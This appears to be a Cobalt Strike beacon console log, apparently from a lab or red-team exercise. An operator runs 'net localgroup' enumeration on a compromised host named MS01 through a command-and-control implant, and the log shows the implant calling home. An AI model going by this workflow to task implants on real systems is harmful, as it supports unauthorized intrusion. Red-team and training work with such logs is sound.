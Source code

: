 ```
[10/06 16:35:27] beacon> shell net localgroup Remote Desktop Users
[10/06 16:35:27] [*] Tasked beacon to run: net localgroup Remote Desktop Users
[10/06 16:35:30] [+] host called home, sent: 66 bytes
[10/06 16:35:31] [+] received output:
The syntax of this command is:



NET LOCALGROUP

[groupname [/COMMENT:"text"]] [/DOMAIN]

              groupname {/ADD [/COMMENT:"text"] | /DELETE}  [/DOMAIN]

              groupname name [...] {/ADD | /DELETE} [/DOMAIN]




[10/06 16:35:41] beacon> shell net localgroup "Remote Desktop Users"
[10/06 16:35:41] [*] Tasked beacon to run: net localgroup "Remote Desktop Users"
[10/06 16:35:46] [+] host called home, sent: 68 bytes
[10/06 16:35:46] [+] received output:
Alias name     Remote Desktop Users

Comment        Members in this group are granted the right to logon remotely



Members



-------------------------------------------------------------------------------

The command completed successfully.




[10/06 16:35:57] beacon> shell net localgroup
[10/06 16:35:57] [*] Tasked beacon to run: net localgroup
[10/06 16:36:02] [+] host called home, sent: 45 bytes
[10/06 16:36:02] [+] received output:


Aliases for \\MS01



-------------------------------------------------------------------------------

*Access Control Assistance Operators

*Administrators

*Backup Operators

*Certificate Service DCOM Access

*Cryptographic Operators

*Distributed COM Users
```